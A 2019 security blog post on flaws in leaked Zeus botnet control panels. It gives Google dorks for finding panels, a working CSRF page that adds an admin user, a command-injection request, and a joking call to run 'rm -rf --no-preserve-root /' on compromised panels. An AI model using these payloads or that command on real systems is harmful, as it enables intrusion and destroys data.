 ```yaml
---           
layout: post
title: Attacking financial malware botnet panels - Zeus
date: 2019-10-08 14:00:32 UTC
updated: 2019-10-08 14:00:32 UTC
comments: false
categories: botnet remote code execution Zeus
---
```

<div style="text-align: justify;">I played with leaked financial malware recently. When I saw these panels are written in PHP, my first idea was to hack them. The results are the work of one evening, please don't expect a full pentest report with all vulns found :-)</div><div style="text-align: justify;"><br/></div><div style="text-align: justify;">The following report is based on Zeus 2.0.8.9, which is old, but I believe a lot of Zeus clones (and C&amp;C panels) depend on this code.</div><div style="text-align: justify;"><br/></div><div style="text-align: justify;">First things first, here are some Google dorks to find Zeus C&amp;C server panel related stuff:</div><div style="text-align: justify;"></div><ul><li>inurl:cp.php?m=login - this should be the login to the control panel</li><li>inurl:_reports/files  - in these folders you can find the stolen stuff, pretty funny if it gets indexed by Google</li><li>inurl:install/index.php - this should be deleted, but I think this is useless now.</li></ul><br/><div class="separator" style="clear: both; text-align: center;"><a href="https://z6543.github.io/_img/Zeus1.png" src="https://z6543.github.io/_img/Zeus1.png" style="margin-left: 1em; margin-right: 1em;"><img border="0" height="" src="https://z6543.github.io/_img/Zeus1.png" width="400"/></a></div><br/><h3>Boring vulns found</h3><ul><li style="text-align: justify;"><a href="https://www.owasp.org/index.php/Testing_for_Credentials_Transported_over_an_Encrypted_Channel_(OWASP-AT-001)">Clear text HTTP login</a> - you can sniff the login password via MiTM, or steal the session cookies</li><li style="text-align: justify;"><a href="https://www.owasp.org/index.php/Testing_for_Weak_password_policy_(OWASP-AT-008)">No password policy</a> - admins can set up really weak passwords</li><li style="text-align: justify;"><a href="https://www.owasp.org/index.php/Testing_for_Weak_lock_out_mechanism_(OWASP-AT-004)">No anti brute-force</a> - you can try to guess the admin's password. Default username is admin</li><li style="text-align: justify;"><a href="https://www.owasp.org/index.php/Testing_for_Vulnerable_Remember_Password_(OWASP-AT-006)">Password autocomplete enabled</a> - boring</li><li style="text-align: justify;"><a href="https://www.owasp.org/index.php/Testing_for_cookies_attributes_(OWASP-SM-002)">Missing HttpOnly flag on session cookie</a> - it could be nice if I could find any XSS. I need more time to find one!</li><li style="text-align: justify;"><a href="https://www.owasp.org/index.php/Testing_for_CSRF_(OWASP-SM-005)">No CSRF protection</a> - except on the password change, where the old password is needed :-( boring</li></ul>Update: You can use the CSRF to create a new user with admin privileges:<br/><div><div><pre class="prettyprint linenums lang-html">&lt;html&gt;<br/>&lt;head&gt;<br/>    &lt;title&gt;&lt;/title&gt;<br/>&lt;/head&gt;<br/>&lt;body&gt;<br/>    &lt;pre&gt;<br/>  This is a CSRF POC to create a new admin user in Zeus admin panels.<br/>  Username: user_1392719246 Password: admin1<br/>  You might change the URL from 127.0.0.1.<br/>  Redirecting in a hidden iframe in &lt;span id="countdown"&gt;10&lt;/span&gt; seconds.  <br/>&lt;/pre&gt;<br/>&lt;iframe id="csrf-frame" name="csrf-frame" style="display: none;"&gt;&lt;/iframe&gt;<br/>    &lt;form action="http://127.0.0.1/cp.php?m=sys_users&amp;amp;new" id="csrf-form" method="post" name="csrf-form" target="csrf-frame"&gt;<br/> &lt;input name="name" type="hidden" value="user_1392719246" /&gt; <br/> &lt;input name="password" type="hidden" value="admin1" /&gt; <br/> &lt;input name="status" type="hidden" value="1" /&gt; <br/> &lt;input name="comment" type="hidden" value="PWND!" /&gt;<br/> &lt;input name="r_botnet_bots" type="hidden" value="1" /&gt; <br/> &lt;input name="r_botnet_scripts" type="hidden" value="1" /&gt; <br/> &lt;input name="r_botnet_scripts_edit" type="hidden" value="1" /&gt; <br/> &lt;input name="r_edit_bots" type="hidden" value="1" /&gt; <br/> &lt;input name="r_reports_db" type="hidden" value="1" /&gt; <br/> &lt;input name="r_reports_db_edit" type="hidden" value="1" /&gt; <br/> &lt;input name="r_reports_files" type="hidden" value="1" /&gt;<br/> &lt;input name="r_reports_files_edit" type="hidden" value="1" /&gt;<br/> &lt;input name="r_reports_jn" type="hidden" value="1" /&gt; <br/> &lt;input name="r_stats_main" type="hidden" value="1" /&gt; <br/> &lt;input name="r_stats_main_reset" type="hidden" value="1" /&gt; <br/> &lt;input name="r_stats_os" type="hidden" value="1" /&gt; <br/> &lt;input name="r_system_info" type="hidden" value="1" /&gt; <br/> &lt;input name="r_system_options" type="hidden" value="1" /&gt;<br/> &lt;input name="r_system_user" type="hidden" value="1" /&gt; <br/> &lt;input name="r_system_users" type="hidden" value="1" /&gt;<br/>    &lt;/form&gt;<br/>&lt;script type="text/javascript"&gt;<br/> window.onload=function(){ <br/>  var counter = 10;<br/>  var interval = setInterval(function() {<br/>   counter--;<br/>   document.getElementById('countdown').innerHTML = counter;<br/>   if (counter == 0) {<br/>    redirect();<br/>    clearInterval(interval);<br/>   }<br/>  }, 1000);<br/> };<br/>    function redirect() {<br/>  document.getElementById("csrf-form").submit();<br/>    }<br/>    &lt;/script&gt;<br/>&lt;/body&gt;<br/>&lt;/html&gt;<br/></pre><ul><li style="text-align: justify;">MD5 password - the passwords stored in MySQL are MD5 passwords. No <a href="http://www.unlimitednovelty.com/2012/03/dont-use-bcrypt.html">PBKDF2, bcrypt, scrypt, salt</a>, whatever. MD5.</li><li style="text-align: justify;"><a href="http://www.contextis.com/research/tools/clickjacking-tool/">ClickJacking</a> - really boring stuff</li><li style="text-align: justify;">Remember me (MD5 cookies) - a very bad idea. In this case, the remember me function is implemented in a way where the MD5 of the password and MD5 of the username is stored in a cookie. If I have XSS, I could get the MD5(password) as well.</li><li style="text-align: justify;"><a href="https://www.owasp.org/index.php/Testing_for_SQL_Injection_(OWASP-DV-005)">SQLi</a> - although concatenation is used instead of parameterized queries, and addslashes are used, the integers are always quoted. This means it can be hacked only in case of special encoding like GB/Big5, pretty unlikely.</li></ul><br/><h3>Whats good news (for the C&amp;C panel owners)</h3><br/>The following stuff looks good, at least some vulns were taken seriously:<br/><ul><li>The system directory is protected with .htaccess deny from all.</li><li>gate.php - this is the "gate" between the bots and the server, this PHP is always exposed to the Internet. The execution of this PHP dies early if you don't know the key. But you can <a href="http://blog.threatexpert.com/2009/09/time-to-revisit-zeus-almighty.html">get the key</a> from the binary of this specific botnet (<a href="http://mnin.blogspot.be/2011/09/abstract-memory-analysis-zeus.html">another URL how to do this</a>). If you have the key, then you can fill the database with garbage, but that's all I can think of now.</li><li>Anti <a href="https://www.owasp.org/index.php/Testing_for_Reflected_Cross_site_scripting_(OWASP-DV-001)">XSS</a>: the following code is used almost everywhere</li><pre class="prettyprint lang-js">return htmlspecialchars(preg_replace('|[\x00-\x09\x0B\x0C\x0E-\x1F\x7F-\x9F]|u', ' ', $string), ENT_QUOTES, 'UTF-8');</pre>My evil thought was to inject malicious bot_id, but it looks like it has been filtered everywhere. Sad panda.</ul><br/><h3>What's really bad news (for the C&amp;C panel owners)</h3><br/>And the best vuln I was able to find, <a href="https://www.owasp.org/index.php/Testing_for_Command_Injection_(OWASP-DV-013)">remote code execution</a> through command injection (happy panda), but only for authenticated users (sad panda).<br/><br/>The vulnerable code is in system/fsarc.php:<br/><br/><div class="separator" style="clear: both; text-align: center;"><a href="https://z6543.github.io/_img/Zeus2.png" src="https://z6543.github.io/_img/Zeus2.png" style="margin-left: 1em; margin-right: 1em;"><img border="0" height="" src="https://z6543.github.io/_img/Zeus2.png" width="400"/></a></div><pre class="prettyprint lang-php">function fsarcCreate($archive, $files){<br/>   ...<br/>   $archive .= '.zip';<br/>   $cli = 'zip -r -9 -q -S "'.$archive.'" "'.implode('" "', $files).'"';<br/>   exec($cli, $e, $r);<br/>}</pre><br/>The exploit could not be simpler: <br/><pre class="prettyprint lang-html">POST /cp.php?m=reports_files&amp;path= HTTP/1.1<br/>...<br/>Content-Type: application/x-www-form-urlencoded<br/>Content-Length: 60<br/><br/>filesaction=1&amp;files%5B%5D=files"||ping%20-n%2010%20127.0.0.1<br/></pre>because the zip utility was not found on my Windows box. You can try to replace || with &amp;&amp; when attacking Windows (don't forget to URL encode it!), or replace || with ; when attacking Linux. You can also link this vulnerability with the CSRF one, but it is unlikely you know both the control panel admin, and the control panel URLs. Or if this is the case, the admin should practice better OPSEC :)<br/>Recommendation: use <a href="http://www.php.net/manual/en/function.escapeshellcmd.php">escapeshellcmd</a> next time.<br/><br/>Next time you find a vulnerable control panel with a weak password, just rm -rf --no-preserve-root / it ;-)<br/><br/>That's all folks!<br/>Special greetz to Richard (XAMPP Apache service is running as SYSTEM ;-) )<br/><br/><b>Update:</b> Looks like the gate.php is worth to investigate if you know the RC4 key. <a href="http://cybercrime-tracker.net/zeus.php">You can upload a PHP shell :)</a></div></div>